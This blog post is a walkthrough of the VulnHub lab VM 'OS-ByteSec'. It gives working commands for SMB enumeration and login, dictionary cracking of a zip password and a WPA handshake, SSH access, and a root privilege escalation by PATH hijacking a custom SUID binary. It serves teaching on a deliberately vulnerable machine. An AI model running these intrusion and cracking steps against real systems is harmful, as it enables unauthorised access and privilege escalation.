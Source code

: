 ```yaml
---
published: true
title: Byte Sec
author: F3dai
image: 'https://i.imgur.com/Dsajsd2.png'
category: writeup
---
```


Flag : 2 Flag first user And second root. Learning : exploit, SMB, Enumration, Stenography, Privilege Escalation. We recommend that you use VirtualBox and not VMware for this VM 

**URL:** [OS ByteSec](https://www.vulnhub.com/entry/hacknos-os-bytesec,393/)

**Difficulty:** Intermediate

**Author:** Rahul Gehlaut

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/S2hIAEd.png)

We can identify the machine with the IP 192.168.56.116, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.116</pre>

![nmap](https://imgur.com/9wpz9b8.png)

We have identified ports 80 139 445 2525 are open. Ports 138 and 2525 are worth noting as they could be smb. Read more about Samba shares [here](https://en.wikipedia.org/wiki/Samba_(software))

To start, port 80 is open so we will investigate this port with a browser.

![web page](https://imgur.com/Dsajsd2.png)

At first glance, the bottom of the web page has the following text:

<pre>####################GET#####smb##############free </pre>

This is also seen in the page source:

![source](https://imgur.com/SvBX5zC.png)

This gives us a pretty obvious hint that there is probably samba running. Let's perform some enumeration based on this information with the tool [enum4linux](https://tools.kali.org/information-gathering/enum4linux). This tool is for enumerating information from Windows and Samba systems.  

<pre>enum4linux 192.168.56.116 </pre>

![enum4linux](https://imgur.com/vYR1FxN.png)

Known Usernames = administrator, guest, krbtgt, domain admins, root, bin, none.

Let's try and log into SMB with smbclient. This tool launches an ftp-like client to access SMB/CIFS resources on servers - [computerhope](https://www.computerhope.com/unix/smbclien.htm). 

Execute the following command:

<pre>smbclient //192.168.56.116/smb -U smb -p</pre>

To break this command down, we are specifying the //host/smb with user -U smb and -p enables a printer service rather than as a normal filespace service. 

![smb](https://imgur.com/1bH2oPc.png)

We are logged in. There is a file named safe.zip and main.txt which we will transfer to our local system with "get".

<pre>ls
get safe.zip
get main.txt</pre>

There doesn't seem to be anything on main.txt, let's have a look at the archive:

<pre>unzip safe.zip</pre>

![zip](https://imgur.com/xSLOmLR.png)

The .zip file seems to be password protected. There is a tool we can use to try and crack the password by brute forcing.

[fcrackzip](http://manpages.ubuntu.com/manpages/trusty/man1/fcrackzip.1.html) is a zip file password cracker. 

<pre>fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip</pre>

To break down this command, -D specifies a dictionary attack, -p specifies the rockyou.txt dictionary and -u specifies the file we want to crack. The command will essentially try to decompress the zip archive using the passwords in the wordlist and return the password when successful.

![cracked](https://imgur.com/MWKqIPq.png )

A password has been found:

<pre>PASSWORD FOUND!!!!: pw == hacker1</pre>

Unzipping the file using the password gives us a .cap file. A .cap file is a packet capture file which can be analysed with traffic capture software such as Wireshark. To read more about this, [Life Wire](https://www.lifewire.com/cap-file-2622694) have a pretty good article on this. Let's open up the file with Wireshark.

Looking at the .cap file, we see the protocol 802.11 being used.
This Wireshark website explains the protocol that is seen on this traffic capture: [Wireshark](https://wiki.wireshark.org/CaptureSetup/WLAN#WLAN_.28IEEE_802.11.29_capture_setup)

After some research, we can identify WLAN as IEEE 802.11. These could be packets captured via WiFi. When analysing Wifi traffic, can often find a 3-way handshake whenever someone joins the network. We can try and crack this .cap file for any passwords.

Let's use aircrack-ng, a tool which accesses WiFi network security. Run the following command:

<pre>aircrack-ng user.cap -w /usr/share/wordlists/rockyou.txt</pre>

![aircrack](https://imgur.com/OMpwwRS.png)

Aircrack has found a password:

<pre>KEY FOUND! [ snowflake ]</pre>

There is a username that can easily be seen in the packet capture:

<pre>blackjax</pre>

![user](https://imgur.com/WlZqeW6.png)

Now that we have a username and password, let's try logging in with SSH. If you remember, a different port was open for ssh. 

<pre>cat nmap | grep ssh</pre>

SSH on port 2525.

<pre>ssh blackjax@192.168.56.116 -p 2525</pre>

![ssh login](https://imgur.com/Pp7yswG.png)

### Privilege Escalation

Let's upgrade our shell with the following command:

<pre>python -c 'import pty;pty.spawn("/bin/bash")'</pre>

![python](https://imgur.com/mT2v1uP.png)

There are a few different home directories for users sagar, smb and blackjax:

![home](https://imgur.com/QtPdLtT.png)

This next section will be focusing on exploiting Set User ID (SUID). This is a good article about this if you want to read more:

[Recipe for Root](https://recipeforroot.com/suid-binaries/)

And another website for some priv esc with a section on SUID:

[Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

The following command will identify any SUID enabled executables on the unix machine:

<pre>find / -user root -perm -4000 -print 2>/dev/null</pre>

![find](https://imgur.com/xbvuq3E.png)

For reference, these are a list of binaries native to Linux, meaning we should not investigate any of these:

<pre>ping
ping6
passwd
sudo
chfn
apring
gpasswd
chsh
chfn
mount
sudo
su
umount
mount
newgrp
pppd</pre>

One of the binaries identified from the command:

<pre>/usr/bin/netscan</pre>

This is evidently not native so let's have a closer look. Run the binary with the following command:

<pre>/usr/bin/netscan</pre>

![netscan](https://imgur.com/Gnd59wt.png)

Let's exploit this with the following commands:

<pre>cd /tmp
echo "/bin/bash" > netstat
chmod 777 netstat
export PATH=/tmp:$PATH
/usr/bin/netscan</pre>

These commands essentially create a file called netstat in /tmp with correct permissions. The export command marks an environment variable to be exported to child-processes. Then the netscan binary is run again.

![exploit](https://imgur.com/6fCCYU2.png)

And we are root, with root flag:

![root](https://imgur.com/Sxi9AWQ.png)
